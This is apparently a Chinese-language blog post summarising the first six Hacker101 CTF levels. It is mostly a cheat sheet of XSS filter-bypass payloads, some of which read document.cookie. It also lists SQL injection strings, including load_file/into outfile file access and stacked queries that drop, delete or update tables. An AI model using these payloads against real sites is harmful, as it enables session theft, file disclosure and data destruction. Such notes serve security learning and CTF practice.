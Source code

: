 ```yaml
---
title: "Hacker101 前6关总结"
date: 2019-10-20T16:39:55+08:00
showDate: true
draft: false
tags: ["security","hacker101", "ctf"]
categories: ["security"]
---
```



# hacker101前6关总结

## 常见web漏洞

### 常见xss（Cross Site Scripting）（为了防止和css混淆，被叫做xss）

#### 常用测试

* 1. 直接攻击

`<script>alter('xss')</script>`

`<script>prompt('xss')</script>`

* 2. 闭合input

`'><script>alter('xss')</script>`

#### 绕过双引号过滤

* 1. 用html编码

`<script>alert(&quot;XSS&quot;)</script>`

* 2. 用js的`fromCharCode`函数

`<script>alert(String.fromCharCode(88,83,83))</script>`

#### 绕过script过滤

* 1. 用事件处理

`<BODY onload="alert('XSS')">`
`<IMG SRC="" onerror="alert('XSS')">`

* 2. 用img标签

`<IMG SRC="javascript:alert('XSS');">`
`<IMG SRC=javascript:alert('XSS')>`
`<IMG SRC=JaVaScRiPt:alert('XSS')>`

* 3. 用空字符（只在 IE 6.0, IE 7.0 有效）

`<SCR%00IPT>alert("XSS")</SCRIPT>`

#### 双引号配对bug

`<IMG """><SCRIPT>alert('XSS')</SCRIPT>">`

由于标签不完整，导致被浏览器修正后变成

`<img><script>alert('xss')</script>"&gt;`

#### meta标签

`<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">`

`PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K`为`<script>alert(‘XSS’)</script>`的base64编码

#### 畸形a标签

`<a onmouseover="alert(document.cookie)">xxs link</a>`

被浏览器修正后变为

`<a onmouseover=alert(document.cookie)>xxs link</a>`

#### utf-7

`<script>alert("XSS")</script>`用utf-7编码后变为

`+ADw-script+AD4-alert(+ACI-XSS+ACI-)+ADw-/script+AD4-`

然后将加号替换成连接符

`%2BADw-script%2BAD4-alert%281%29%2BADw-/script%2BAD4-`

### sql注入

#### 简单测试

* 1. 字符串注入

    `' and 1=2`

* 2. 整型注入

    ` and 1=2`

#### 猜解数据库

`' LENGTH(DATABASE())=1`

这一步可以通过sqlmap自动化实现

#### union注入

` union select 1`

#### load_file、into outfile、into dumpfile

` union select load_file('path/to/file')`

` into outfile 'path/to/file'`

` into dumpfile 'path/to/file'`

outfile和dumpfile的区别在于outfile是导出多行数据，他会转义换行符，适合导出多行数据
dumpfile是导出一行，但会保持源数据格式

这三个功能会被mysql`secure_file_priv`参数限制,具体如下

* 其中当参数 secure_file_priv 为空时，对导入导出无限制
* 当值为一个指定的目录时，只能向指定的目录导入导出
* 当值被设置为NULL时，禁止导入导出功能

默认情况下的值为`/var/lib/mysql-files`

#### 堆叠注入（stacked injection）

`;drop table xxx;`

`;delete from table xxx;commit;`

`;update xxx set sss='';commit;`

这个需要看具体环境支不支持执行多条语句，经过测试python2的mysqldb中的`cur.execute()`存在堆叠注入。但是python3中的pymysql并不会。

    












